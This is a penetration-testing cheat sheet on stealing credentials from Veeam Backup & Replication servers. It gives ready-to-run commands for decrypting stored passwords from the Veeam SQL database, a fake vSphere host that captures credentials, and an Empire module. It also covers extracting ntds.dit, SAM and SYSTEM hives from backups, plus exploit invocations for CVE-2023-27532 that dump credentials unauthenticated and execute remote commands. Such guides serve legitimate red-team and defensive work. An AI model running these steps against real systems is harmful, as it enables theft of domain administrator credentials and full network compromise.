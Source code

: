 ```yaml
---
description: MITRE ATT&CK™ Credential Access - Tactic TA0006
---
```


# Veeam Backup

## Theory

[Veeam Backup & Recplication](https://www.veeam.com/) is a widely used tool  for backing up virtual environments built on VMware vSphere, Nutanix AHV, and Microsoft Hyper-V hypervisors. If you manage to compromise the Veeam Backup & Replication serveur, you can extract passwords and hashes from its database or from the machines that are backed up

{% hint style="info" %}
Veam servers used for the backup should not be joined to the domain, so when attackers compromise the domain, they can't destroy your backup.
{% endhint %}

## Practice

### Credentials Dump

Veeam requires the username and password for any machine you want to back it up. The user provided should have high privileges on the machine, so usually, if you're going to backup the domain devices, you will put administrator creds. Veeam stores these creds on MS-SQL using [ProtectedData.Protect](https://msdn.microsoft.com/en-us/library/2fh8203k\(v=vs.110\).aspx) method of CryptoAPI. You can easily extract them if you have **admin privilege on the Veeam Server**.

{% tabs %}
{% tab title="Veeam-Get-creds" %}
You can do this step by running the [veeam-creds](https://github.com/sadshade/veeam-creds) script and extract passwords.

```powershell
.\Veeam-Get-Creds.ps1
```
{% endtab %}

{% tab title="Veeampot" %}
If you are able to connect to the Veeam console and you have the right to create new connections to the hypervisor. You can have Veeam connect to a fake vSphere host.

{% hint style="info" %}
It doesn’t matter if the console is running on the same host or on a different one.
{% endhint %}

1. First, run [veampot.py](https://github.com/sadshade/veeam-creds/blob/main/veeampot.py) on your attacking machine

```bash
python3 veampot.py
```

2. Then, create a new connection to the vSphere server in the Veeam console in the Inventory section;
3. Enter the address of the machine with the running script specifying the connection port `8443`;
4. Select the required account and complete the wizard.&#x20;
5. Finlay, get password in script output.
{% endtab %}

{% tab title="SQL Request" %}
From SQL management studio (of any SQL management interface access method) run the following again the veeam managemnt database:

```sql
SELECT TOP (1000) [id] 
,[user_name] 
,[password] 
,[usn] 
,[description] 
,[visible] 
,[change_time_utc] 
FROM [VeeamBackup].[dbo].[Credentials] 
```

This will dumpt the password hashes. Copy them and then run a PowerShell interface

```powershell
Add-Type -Path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll" 

$encoded = 'INSERT_HASH_HERE' 

[Veeam.Backup.Common.ProtectedStorage]::GetLocalString($encoded) 
```
{% endtab %}

{% tab title="PowerShell Empire" %}
You may use the [VeeamGetCreds.yaml](https://github.com/sadshade/veeam-creds/blob/main/VeeamGetCreds.yaml) [PowerShell Empire](https://github.com/EmpireProject/Empire) module witch adapted Veeam-Get-Creds.ps1 script.

1. copy VeeamGetCreds.yaml to empire/server/modules/powershell/credentials/ folder
2. Run Empire server and client
3. Use as usual Empire module by name /powershell/credentials/VeeamGetCreds
{% endtab %}
{% endtabs %}

### Backup Machines - Hashes Extraction

If you can access a backup image, you can restore it on your local disk. More interesting, we can use the Veam individual files recover feature. Depending on the server backup type, you may extract SAM and LSA secrets from registry hives or even the NTDS.dit file if it's a domain controller. Check this section for more information about [credentials dumping](../../ad/movement/credentials/dumping/).

{% tabs %}
{% tab title="From Veeam Backup files" %}
When you have a valid backup image, Veeam provides a restore mechanism by "[VBK Extract](https://www.veeam.com/fr/data-center-availability-suite-vcp-download.html?ref=julien.io)".  You can exfiltrate the backup images and extract the backup in multiple extensions like VMDM, VHD, or VHDX on your attacking host.

```bash
#Before, copy backups files in the current directory
#VBK Extract on linux
tar -zxvf VeamExtract*
./extract
```

We can then create a new VM from this files or mount it to our disk to recover sensitive files.
{% endtab %}

{% tab title="From Veeam Console" %}
From the Veeam console, to restore individual files, you need to select the required VM from the list of tasks from the section _Backups > Disk > ${JOB\_NAME}_ and select the recovery mode for individual files from the menu.

<figure><img src="../../.gitbook/assets/0_N6yuiYvbUpQUiF9s.webp" alt=""><figcaption></figcaption></figure>

After completing the wizard, a file selection window will open. To restore and decrypt the Active Directory database, you can extract several files:

* ntds.dit — encrypted [AD database](https://habr.com/ru/post/172865/);
* SYSTEM — registry branch containing the [BootKey ](https://moyix.blogspot.com.ar/2008/02/syskey-and-sam.html)encryption key;
* SECURITY — registry branch containing cached [LSA Secrets](https://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html) passwords;
* SAM — The [Security Accounts Manager](https://ru.wikipedia.org/wiki/Security\_Account\_Manager), which contains password hashes of local users.
{% endtab %}
{% endtabs %}

### Unauthenticated Credentials Dump & RCE - CVE-2023-27532

Vulnerability CVE-2023-27532 in a Veeam Backup & Replication component allows an unauthenticated user operating within the backup infrastructure network perimeter to obtain encrypted credentials stored in the configuration database or perform remote code execution.

{% hint style="info" %}
Any Veeam Backup & Replication version prior to V12  ([build 12.0.0.1420 P20230223](https://www.veeam.com/kb4420)) and V11a ([build 11.0.1.1261 P20230227](https://www.veeam.com/kb4245)) is vulnerable.
{% endhint %}

{% tabs %}
{% tab title="Dump Credentials" %}
We may use the [sfewer-r7's exploit](https://github.com/sfewer-r7/CVE-2023-27532) (C#) to dump credentials from a remote Veeam server.

```powershell
VeeamHax.exe --target <VEAM_IP>
```

Alternatively, we may use [this exploit](https://github.com/horizon3ai/CVE-2023-27532) (C#) from horizon3ai.

```
CVE-2023-27532.exe net.tcp://<VEAM_IP>:9401/
```
{% endtab %}

{% tab title="RCE" %}
We may use the [sfewer-r7's exploit](https://github.com/sfewer-r7/CVE-2023-27532) (C#) to run an arbitrary command with local system privileges on the remote Veeam server.

```powershell
VeeamHax.exe --target 192.168.0.100 --cmd calc.exe
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://medium.com/@_sadshade/veeam-backup-penetration-getting-the-most-out-of-pentest-17e0da021238" %}

{% embed url="https://www.pwndefend.com/2021/02/15/retrieving-passwords-from-veeam-backup-servers/" %}

{% embed url="https://forums.veeam.com/veeam-backup-replication-f2/recover-esxi-password-in-veeam-t34630.htm" %}
